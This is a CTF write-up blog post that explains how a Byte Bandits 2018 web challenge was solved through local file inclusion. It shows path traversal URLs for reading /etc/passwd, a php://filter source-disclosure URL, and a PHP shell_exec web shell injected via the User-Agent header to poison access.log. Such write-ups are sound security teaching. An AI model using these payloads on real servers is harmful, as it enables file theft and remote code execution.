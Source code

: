 ```yaml
---
layout: post
title: Byte Bandits CTF 2018 - R3M3MB3R
author:
  name: Crisis
comments: true
---
```

I also participated in the Byte Bandits CTF this weekend. This web challenge encountered somes issues and was modified a few times from what I saw, so other people might have not done it the way I have. But anyway, here's how I did it.  
The vulnerability was a local file inclusion (LFI). It was easy to find: if you visited `http://web.euristica.in/R3M3MB3R/index.php?f=../../../etc/passwd`, you would get the passwd file. The tricky thing was that `index.php` was filtered in the URL, so it was not possible to directly include it. Some PHP wrappers were activated on the server, so I managed to download the `eg.php` file that way ([http://web.euristica.in/R3M3MB3R/index.php?f=php://filter/read=convert.base64-encode/resource=eg.php](http://web.euristica.in/R3M3MB3R/index.php?f=php://filter/read=convert.base64-encode/resource=eg.php)), but nothing interesting was in it, and because of the filter you couldn't retrieve the index like this.  
After some time spent trying, and failing, to bypass that filter, I decided to try something else. My next idea was to include some log files from the server, in which I could inject some PHP code that would be executed when included. I've recently [read a bit on the subject](http://ly0n.me/2015/10/19/lfi-beyond-procselfenviron/), and I found several files:  
```
http://web.euristica.in/R3M3MB3R/index.php?f=../../../var/log/apache2/access.log
http://web.euristica.in/R3M3MB3R/index.php?f=../../../proc/self/fd/2
http://web.euristica.in/R3M3MB3R/index.php?f=../../../proc/self/fd/7
```
PHP code could be injected in each of these logs files using different ways, but to get the flag I used `access.log`. They had a few issues with that file during the CTF. It was removed at some point, then was blocked, then was cleared every 30 seconds or so, and that's how it stayed until the end I believe.  
I injected PHP in the page by modifying my `User-Agent` header with Burp:
```php
User-Agent: <?php echo shell_exec($_REQUEST['cmd']); ?>
```
A simple `ls` revealed where the flag was:
![phpinfo](/medias/bytesbandit18/cat.png)  
  
And you could then directly access it:
```
http://web.euristica.in/R3M3MB3R/S3cR3T_FL4G.txt
flag{S0metim3s_it5_b3tter_to_4_GET} 
```
They changed the file's name later on, and it became `S3cR3T_FL4G_da456sds.txt`. Not sure why, and it might have changed some more, but that's how it was called initially anyway. 
With code execution, you could of course download `index.php` as well by doing `cat /var/www/html/index.php|base64`, but [there was nothing interesting in it](/medias/bytesbandit18/index.txt).

{% if page.comments %}
<div id="disqus_thread"></div>
<script>
var disqus_config = function () {
this.page.url = PAGE_URL;  // Replace PAGE_URL with your page's canonical URL variable
this.page.identifier = "BYTESBANDIT18R3M"; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
};
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://phi0-1.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript> 
{% endif %}